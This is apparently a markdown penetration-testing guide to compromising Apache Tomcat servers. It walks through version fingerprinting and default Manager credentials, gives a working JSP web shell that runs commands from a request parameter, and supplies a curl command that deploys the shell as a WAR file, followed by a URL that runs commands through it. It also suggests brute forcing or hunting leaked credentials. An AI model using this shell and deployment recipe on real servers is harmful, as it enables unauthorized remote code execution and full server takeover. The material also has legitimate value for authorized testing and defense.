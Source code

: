 ## Checking Apache Tomcat Version

- Different Tomcat versions have different known vulnerabilities.
- Knowing the version helps select the right exploit or attack vector.

#### How to check Tomcat version?

**HTTP Headers**
Tomcat often exposes its version in response headers.
```http
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
X-Powered-By: Servlet/3.0 JSP/2.2
```
Sometimes the version is shown directly:
```http
Server: Apache-Coyote/1.1 (Apache Tomcat/7.0.68)
```

**Default pages**
Access the default Tomcat page:
```http
http://target:8080/
```
Look for version info in page footer or in the "Server Status" page (if enabled):
```http
http://target:8080/manager/status
```

## Exploiting Tomcat Manager by Uploading a WAR File

- The Tomcat Manager app allows deployment of new applications.
- If accessible and unprotected, attackers can upload malicious WAR files to get remote code execution (RCE).

#### Step 1: Access the Manager

Default URL:
```http
http://target:8080/manager/html
```

Requires credentials (often weak or default):
- `admin:admin`
- `tomcat:tomcat`
- `admin:password`

#### Step 2: Upload a malicious WAR file
There are public repositories such as GitHub, ExploitDB, and others that host ready-to-use WAR files containing web shells. You simply need to download the WAR file and upload it to the target server.For example:

- Simple JSP Shell WAR (a generic example)
- ExploitDB offers several ready-made WAR shells available for download

Another option is preparing a WAR file with a web shell. For example, create a simple JSP shell:
```http
<%@ page import="java.util.*,java.io.*"%>
<%
if(request.getParameter("cmd") != null) {
    String cmd = request.getParameter("cmd");
    Process p = Runtime.getRuntime().exec(cmd);
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
}
%>
```

#### Step 3: Use the Manager interface or curl to upload WAR

Example curl command:
```http
curl --user admin:admin --upload-file shell.war "http://target:8080/manager/text/deploy?path=/shell&update=true"
```

#### Step 4: Access the deployed shell

```http
http://target:8080/shell/shell.jsp?cmd=id
```

You can now run commands via the `cmd` parameter.

## Notes

> If manager app requires authentication and credentials are unknown, try brute forcing or searching for leaked creds.
> 
> Ensure the WAR file is correctly packaged and the path is unique.
> 
> Uploaded web shells can lead to full server compromise.